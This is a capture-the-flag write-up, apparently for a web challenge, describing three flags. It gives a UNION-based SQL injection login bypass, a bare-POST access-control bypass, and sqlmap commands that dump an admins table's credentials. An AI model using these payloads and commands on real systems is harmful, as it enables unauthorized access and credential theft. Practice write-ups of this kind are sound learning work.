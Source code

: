 # FLAG 0
Finding this flag started with me **testing all inputs with special characters** for example the single quote
When entering the single quote into the username field of the login page a error will be displayed on the users screen

```py
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1")
```
From this error you get two useful pieces of information **the type of DB and the query**
To simplify the query we will assume the input is called "USERINPUT" this isn't important to finding the flag just so I can show how the query works.

```sql
SELECT password
FROM admins
WHERE username='USERINPUT'
```
Now that we know the query we can **exploit it**.

I was unsure of how to exploit this query until i got the hint 
```
Getting admin access might require a more perfect union
```
This told me that it will be a SQL injection using a union. Creating the next part of the query took me some time researching mostly watching videos such as computerphiles two SQL injection videos.
After researching it occured to me that when using the single quote I am ending the current query and am now in control of what happens next.
```sql
'UNION SELECT 'pass' AS password from admins where '1' = '1 
```
When you enter this into the username field it will set the password to pass and it has to be correct due to the '1' = '1 which always returns true
The full query looks like this.

```SQL
SELECT password
FROM admins
WHERE username='USERINPUT''UNION SELECT 'pass' AS password from admins where '1' = '1 
```
Once entered you will be greeted by the logged in screen and a private page with the flag.

# FLAG 1
Finding this flag took some time. I first got the hint number 1
```
What actions could you perform as a regular user on the last level, which you can't now?
```
This pointed me towards either the edit page or the create page after some failed attempts at exploiting either of these pages I took the second hint
```
Just because request fails with one method doesn't mean it will fail with a different method
``` 
This was obviously talking about the **QUEST METHODS**. POST , HEAD, GET , OPTIONS. 

Once I knew it had something to do with the METHOD I opened up firefoxes f12 networking page and edited and resend the requests. 

I started on the create page and first sent OPTIONS to see which METHOD could be used. After trying each of these METHODs nothing seemed to work so I moved to the edit page and tried there.

When the edit page is sent a REQUEST with the method POST it will give an error 400 or bad request. Once I saw it was a bad request I sent again after **removing** all the request headers to see what a blank POST request would yield.

It yielded a STATUS 200 and the flag in responce. 

Going back and testing this on the create page does not yield the same result and you will not get the flag.

# FLAG 2
The final flag started with the hint 
```
Credentials are secret, flags are secret. Coincidence?
``` 
This made me think that either the username or password are the flag. 

I started to gather the information I know about the DB which is that it runs on MariaDB and that it uses atleast two columns called username and password.

Remembering something I had read there was a program called SQLMAP that could be used to map SQL databases. Unknowing about the tool I researched it and booted up my linux VM.

after trying to use the URL within SQLMAP like below 
```
SQLMAP -U http://35.227.24.107/c9c02a8fea/login
```
and coming up with no results i looked at the -hh of SQLMAP and found -r which would use a request file.

I knew that everytime you click login it made a request so I launched burpsuite and captured the request to see what it looked like.

```
POST /c9c02a8fea/login HTTP/1.1

Host: 35.227.24.107

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 19

Origin: http://35.227.24.107

Connection: close

Referer: http://35.227.24.107/c9c02a8fea/login

Upgrade-Insecure-Requests: 1



username=&password=
```
This shows that the column names are definately username and password so now it was time to use this request within SQLMAP.

```
sqlmap -r /home/ewan/Desktop/1.request --tables
``` 
This returned all the tables within the DB and the one that stood out as important was this one. 
```
Database: level2
[2 tables]
+----------------------------------------------------+
| admins                                             |
| pages                                              |
+----------------------------------------------------+
```
The next step was gaining access to the information within these tables specifically the admins table.
After some testing with different commands I found the --dump command and attempted to use it on the table 'admins'. 
```
sqlmap -r /home/ewan/Desktop/1.request -T admins --dump
```
This returned 
```
Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | password | username |
+----+----------+----------+
| 1  | malissa  | herman   |
+----+----------+----------+

```
So now we have the username and password for the website. Once entered on the page you get the final flag.

# Conclusion
This was a challenge to complete but with some research it was figured out. I look forward to the next web based CTF I do.

If you wish to contact me add me on discord at Ewan#8585

